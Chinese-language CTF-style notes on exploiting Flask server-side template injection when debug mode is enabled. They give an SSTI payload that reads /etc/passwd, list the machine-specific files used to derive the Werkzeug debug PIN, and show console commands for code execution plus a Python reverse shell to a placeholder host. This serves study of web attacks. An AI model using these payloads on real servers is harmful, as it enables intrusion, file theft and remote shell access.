

Flask模板注入中debug模式下pin码的获取和利用:
## **什么是pin码**
pin码是flask在开启debug模式下，进行代码调试模式所需的进入密码，需要正确的PIN码才能进入调试模式，可以理解为自带的webshell。
有了pin，然后报错或访问/console进，点击一个条列的右边有一个终端按钮，点击进入控制台rce


729-315-842


## **pin码生成要六要素**
通常任意文件读取ssti：
```
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__['open']('/etc/passwd').read()}}
```
1.username在可以任意文件读的条件下读/etc/passwd进行猜测
2.modname 默认 flask.app
3.appname 默认Flask
4.moddir flask库下app.py的绝对路径,可以通过报错拿到,如传参的时候给个不存在的变量，乱传ssti
5.uuidnode mac地址的十进制，一定要先去:再转10进制。
```
任意文件读/sys/class/net/eth0/address或具体ls查看
/sys/class/net/eth0/address
/sys/class/net/ens33/address 
c6:f0:91:cb:86:e4
去掉冒号后int("c6f091cb86e4",16)转换为十进制
```
6.machine_id 机器码 
```
machine-id 基于不同版本有不同的算法
machine_id由三个合并(docker就后两个)：1./etc/machine-id 2./proc/sys/kernel/random/boot_id 3./proc/self/cgroup

在werkzeug 1.0.0rc1之前为:
docker环境: /proc/self/cgroup 列表里面…/docker/后面的内容
非docker: /etc/machine-id或/proc/sys/kernel/random/boot_id的内容

在werkzeug 1.0.0rc1及之后为:
/etc/machine-id或/proc/sys/kernel/random/boot_id
+
/proc/self/cgroup
```

然后通过程序生成pin。
生成pin码也有md5和sha1算法两种。

^
## **控制台利用**
有了pin，然后报错或访问/console进，点击一个条列的右边有一个终端按钮，点击进入控制台rce
```
import os
os.popen('env').read()

os.popen("ls -l /").read()
os.popen("cat /this_is_the_flag.txt").read()


__import__('os').popen("env").read()
```
反弹shell
```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("your-ip",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```


^
<https://blog.csdn.net/rfrder/article/details/110240245>

<https://www.cnblogs.com/MisakaYuii-Z/p/12407760.html>